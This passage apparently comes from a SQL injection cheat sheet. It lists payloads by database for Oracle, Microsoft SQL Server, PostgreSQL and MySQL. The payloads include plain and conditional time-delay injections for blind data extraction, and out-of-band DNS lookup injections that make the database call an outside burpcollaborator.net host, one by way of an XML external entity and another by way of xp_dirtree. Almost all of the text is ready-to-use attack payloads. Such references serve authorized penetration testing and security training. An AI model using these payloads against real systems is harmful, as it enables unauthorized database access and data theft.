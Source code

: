 <span id="anchor-127"></span>Microsoft

```
WAITFOR DELAY '0:0:10'
```

<span id="anchor-128"></span>PostgreSQL

```
SELECT pg\_sleep(10)
```

<span id="anchor-129"></span>MySQL

```
SELECT sleep(10)
```

<span id="anchor-130"></span>SQL Conditional Time Delays

<span id="anchor-131"></span>Oracle

```
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'\|\|dbms\_pipe.receive\_message(('a'),10) ELSE NULL END FROM dual
```

<span id="anchor-132"></span>Microsoft

```
IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
```

<span id="anchor-133"></span>PostgreSQL

```
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg\_sleep(10) ELSE pg\_sleep(0) END
```

<span id="anchor-134"></span>MySQL

```
SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')
```

<span id="anchor-135"></span>SQL DNS Lookup

<span id="anchor-136"></span>Oracle

```
SELECT extractvalue(xmltype('&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE root [ &lt;!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"&gt; %remote;]&gt;'),'/l') FROM dual
Or
SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')</p></td>
```

<span id="anchor-137"></span>Microsoft

```
exec master..xp\_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'
```

<span id="anchor-138"></span>PostgreSQL
